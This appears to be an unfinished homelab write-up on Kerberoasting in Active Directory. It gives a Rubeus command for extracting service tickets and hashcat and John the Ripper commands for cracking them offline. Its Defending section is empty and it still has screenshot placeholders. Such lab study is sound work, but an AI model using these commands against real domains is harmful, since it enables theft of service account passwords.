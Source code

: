 # Kerberoasting

## Objective

Kerberos uses Service Principal Names (SPNs) to link service instances to logon accounts, allowing client applications to request authentication without knowing the account name. Kerberoasting exploits this by obtaining a Ticket Granting Service (TGS) ticket, which is encrypted with the service account's NTLM hash, and then performing offline password cracking.

### Skills Learned

- Active Directory
- Domain Policy
- Domain Functional Levels
- Password Policy
- Kerberos Delegation

### Tools Used

- Windows Server DC
- PKI
- Kali Linux
- Rubeus
- Hashcat
- Event Viewer

## Exploit
  Rubeus can be used to obtain crackable tickets.
  ```
  Rubeus.exe kerberoast /outfile:spn.txt
  ```
  INSERT SCREEN SHOT
  
Once the tickets are obtained then it's time to crack them.  We can use two tools for this:
  - Hashcat
  - JackTheRipper

#### Hashcat
  This is possible using mode (-m) 13100 for a Kerberoastable TGS (Ticket Granting Service).
  
  ``` hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt``` -- If hashcat gives an error the option.
  ```--force``` may be necessary.
  
  Once Hashcat finishes cracking, the output will show the password in plain text:
  INSERT SCREENSHOT

#### John The Ripper
  Captured TGS hashes can be cracked just the same:
  ``` sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot```
  INSERT SCREENSHOT

  
## Defending
